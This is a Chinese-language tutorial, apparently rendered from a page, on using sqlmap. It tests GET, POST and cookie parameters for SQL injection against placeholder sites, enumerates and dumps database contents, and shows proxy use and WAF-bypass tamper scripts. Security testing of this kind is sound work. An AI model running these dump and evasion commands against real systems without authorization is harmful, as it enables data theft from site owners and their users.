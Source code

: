 测试 GET 参数
假设你有一个目标 URL，它的 id 参数可能存在 SQL 注入漏洞：

```bash
http://example.com/page.php?id=1
```
你可以使用以下命令来测试这个参数：

```bash
python sqlmap.py -u "http://example.com/page.php?id=1"
```
测试 POST 参数
如果目标使用 POST 方法提交数据，你可以使用 -data 参数：

```bash
python sqlmap.py -u "http://example.com/page.php" --data="id=1"
```
使用 Cookie
如果需要，你还可以添加 Cookie 数据：

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=abc123"
```
数据提取
获取数据库名称
```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --dbs
```
获取表名称
```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D database_name --tables
```
获取列名称
```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D database_name -T table_name --columns
```
提取数据

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" -D database_name -T table_name -C column1,column2 --dump
```
高级用法
SQLmap 还有很多高级选项，如使用代理、绕过 WAF、进行延时测试等。你可以通过运行 python sqlmap.py -h 来查看所有可用选项。

使用代理
要通过代理服务器运行 sqlmap，你可以使用 --proxy 参数：

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --proxy="http://127.0.0.1:8080"
```
这里，http://127.0.0.1:8080 是代理服务器的地址和端口。

绕过 WAF
sqlmap 提供了一些用于绕过 WAF 的技术，这些可以通过 --tamper 参数来指定：

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --tamper="between,randomcase,space2comment"
```
这里，between、randomcase 和 space2comment 是 tamper 脚本，用于修改 SQL 语句以绕过 WAF。
